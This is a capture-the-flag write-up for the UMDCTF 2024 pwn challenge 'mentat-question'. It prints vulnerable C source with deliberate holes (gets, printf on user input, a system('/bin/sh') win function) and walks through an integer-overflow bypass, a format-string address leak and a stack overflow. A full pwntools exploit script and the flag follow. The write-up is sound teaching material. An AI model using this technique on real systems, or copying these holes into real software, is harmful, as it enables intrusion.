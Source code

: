 ```yaml
---
title: mentat-question
type: writeup
date: 2024-04-28T23:58:34+03:00
description: Writeup for mentat-question [UMDCTF_2024]
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

Thufir Hawat is ready to answer any and all questions you have. Unless it's not about division...

## Intuition

For this challenge, we receive the source code. I will be attaching it below, in a code box. We can notice multiple interesting things:
1. We have a _win_ function (``secret``).
2. We have a buffer overflow when ``gets(buf)`` is called in ``calculate``.
3. We have a format string vulnerability when ``printf(buf)`` is called in ``calculate``.
4. Binary has PIE enabled.

The idea is to get to the vulnerabilities, so it's a game of bypassing checks. Firstly, we somehow have to get to ``num2 < 1``, but also bypass ``strncmp(buf, "0", 1) == 0`` in main. We see ``num2`` is unsigned, which means we can only bypass the first condition by assigning it the value 0. However, we can't pass 0 as the input, because of the condition in main, that won't allow us to enter ``calculate`` in the first place. So then, the next idea is to give a really high number as input, so the buffer won't be ``"0"``, but after it's converted and assigned, num2 will overflow to 0. Then we can use the vulnerabilities we noticed above.

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <stdint.h>

void secret() {
    system("/bin/sh");
}

uint32_t calculate(uint32_t num1, uint32_t num2) {
    printf("%i\n", num1);
    printf("%i\n", num2);

    char buf[16];

    if (num2 < 1) {
        puts("Oh, I was not aware we were using negative numbers!");
        puts("Would you like to try again?");
        gets(buf);
        if (strncmp(buf, "Yes", 3) == 0) {
            fputs("Was that a ", stdout);
            printf(buf);
            fputs(" I heard?\n", stdout);
            return 0;
        } else {
            puts("I understand. Apologies, young master.");
            exit(0);
        }
    }

    return num1 / num2;
}

int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
    uint32_t num1;
    uint32_t num2;
    uint32_t res = 0;

    char buf[11];
    puts("Hello young master. What would you like today?");
    fgets(buf, sizeof(buf), stdin);

    if (strncmp(buf, "Division", 8) == 0) {
        puts("Of course");
        while (res == 0) {
            puts("Which numbers would you like divided?");
            fgets(buf, sizeof(buf), stdin);
            num1 = atoi(buf);

            fgets(buf, sizeof(buf), stdin);
            getc(stdin);
            if (strncmp(buf, "0", 1) == 0) {
                puts("I'm afraid I cannot divide by zero, young master.");
                return 1;
            } else {
                num2 = atoi(buf);
            }

            res = calculate(num1, num2);
        }
    }

    return 0;
}
```

## Solution

We use the plan above to get to the vulns. Then we leak ``main`` function's address to find the PIE ASLR slide and then we get to ``calculate`` again to use the buffer overflow. We overwrite the return address with ``secret`` and that's it. You can find the script below with explanations:

```py
#!/usr/bin/env python3

from pwn import *

# okay I did a cool trick here lol
# I added +1 to skip the push rbp because system crashes on stack misalignment
# You can also do this by returning to simple ``ret`` gadget, to align again
# But I was too lazy to run ROPGadget on this challenge.
# In fact, I didn't even import in Ghidra, I used objdump and gdb only.
# I got this offset by doing main - secret in gdb
secret_offset_from_main = - 306 + 1 

#target = process("./mentat-question")
target = remote("challs.umdctf.io", 32300)

target.sendlineafter(b"Hello young master. What would you like today?", b"Division")
target.recvuntil(b"Which numbers would you like divided?")
target.sendline(b"1")
target.sendline(b"4294967296") # max value of uint32_t that overflows to 0

# leak 25$p, found through trial and error and gdb
# you can also calculate it but usually it's not trivial
target.sendlineafter(b"Would you like to try again?", b"Yes %25$p")
print(target.recvline())
main_leak = int(target.recvline().split()[-3], 16)

# calculate absolute address
secret_addr = main_leak + secret_offset_from_main

payload = b"a" * 0x15 + p64(secret_addr)

target.recvuntil(b"Which numbers would you like divided?")
target.sendline(b"1")
target.sendline(b"4294967296")

# do the thing
target.sendlineafter(b"Would you like to try again?", b"Yes" + payload)

# this is the part where my mentat starts having an epileptic seizure
# do they ever do that in the books?
target.interactive()
```

### Flag

``UMDCTF{3_6u1ld_n4v16470r5_4_7074l_0f_1.46_m1ll10n_62_50l4r15_r0und_7r1p}``
